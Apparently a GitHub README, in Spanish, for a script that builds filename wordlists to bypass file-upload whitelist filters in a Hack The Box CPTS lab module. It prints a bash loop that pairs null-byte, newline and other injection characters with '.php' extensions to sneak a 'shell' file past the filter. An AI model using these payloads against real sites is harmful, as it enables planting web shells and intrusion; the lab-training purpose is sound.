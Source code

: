 # Character-Injection-2-extension

Simple script que permite generar diccionarios para la inyeccion en el bypass de file upload de CPTS (https://academy.hackthebox.com/module/136/section/1289) Filtros de lista blanca, basicamente es el siguiente script, "pero mejorado".

for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done

## New Script

![Image](https://github.com/user-attachments/assets/6a20b497-4376-48d6-8098-01127ec288ba)

![Image](https://github.com/user-attachments/assets/b6f50a57-28a5-4407-980e-22c6c51df185)

![Image](https://github.com/user-attachments/assets/3f280d48-6031-4721-8eff-30b57e4b9fc1)

## Uso

Solo descarga la herramienta.

Luego dale permisos con chmod +x

y ejecuta.

